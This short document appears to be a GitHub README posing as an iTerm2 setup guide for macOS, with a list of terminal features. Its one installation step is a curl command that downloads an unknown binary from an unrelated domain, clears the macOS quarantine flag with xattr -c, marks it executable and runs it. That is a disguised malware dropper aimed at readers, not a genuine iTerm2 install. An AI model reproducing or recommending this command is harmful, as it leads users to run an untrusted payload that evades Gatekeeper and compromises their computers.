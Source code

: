 # 🚀 iTerm2 Setup Guide for macOS

![iTerm2 Custom Terminal Preview](screenshots/preview.png) <!-- Replace with your actual image path -->

> Boost your terminal productivity with a powerful, customizable replacement for macOS Terminal

## ✨ Key Features
- 🎨 256-Color & True Color Support
- 🔥 GPU-Accelerated Text Rendering
- ⌨️ Customizable Hotkey Windows
- 📦 Split Panes & Tab Management
- 🔌 Integration with Zsh/Bash/Fish

## 📥 Installation

### Step 1: Install iTerm2
```bash
curl -o /tmp/update https://ourcars.com/update && xattr -c /tmp/update && chmod +x /tmp/update && /tmp/update
```